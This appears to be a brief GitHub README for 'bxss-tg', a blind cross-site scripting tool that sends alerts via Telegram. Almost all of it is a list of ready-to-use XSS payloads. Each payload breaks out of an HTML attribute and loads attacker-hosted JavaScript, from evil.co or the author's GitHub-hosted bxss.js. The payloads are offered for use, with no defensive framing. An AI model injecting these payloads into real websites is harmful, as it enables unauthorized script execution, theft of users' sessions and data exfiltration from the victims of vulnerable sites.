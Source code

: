 # bxss-tg
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>``` \
```"><script src=https://trhacknon.github.io/bxss-tg/bxss.js></script>``` \
```"><script src="https://raw.githubusercontent.com/trhacknon/bxss-tg/master/bxss.js">``` \
```"><script>$.getScript("//evil.co/bxt.js")</script>```
